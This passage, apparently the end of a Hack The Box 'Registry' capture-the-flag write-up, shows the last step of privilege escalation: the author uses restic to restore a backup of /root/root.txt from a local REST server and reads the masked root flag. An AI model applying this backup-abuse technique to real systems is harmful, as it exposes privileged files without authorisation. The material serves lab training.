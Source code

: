 ```
```

**AND we were successful at this, but not done yet!**

After doing all this, we now need to restore the "backup" of the root.txt file locally so we can access the root flag.

**SYNTAX:**
```restic restore <snapshot_ID> -r rest:<Local_Rest_Server_URL> --target <path_to_restore>```


```
kali@back0ff:~/Documents/HTB-Labs/Registry$ restic restore 3a378c88 -r rest:http://127.0.0.1:8000 --target .
enter password for repository: 
repository 5966aab0 opened successfully, password is correct
restoring <Snapshot 3a378c88 of [/root/root.txt] at 2020-03-11 01:18:58.991866815 +0000 UTC by root@bolt> to .
kali@back0ff:~/Documents/HTB-Labs/Registry$ cat root.txt 
ntrkz**********************kztgw
```

**AND WE GOT THE ROOT FLAG!!**


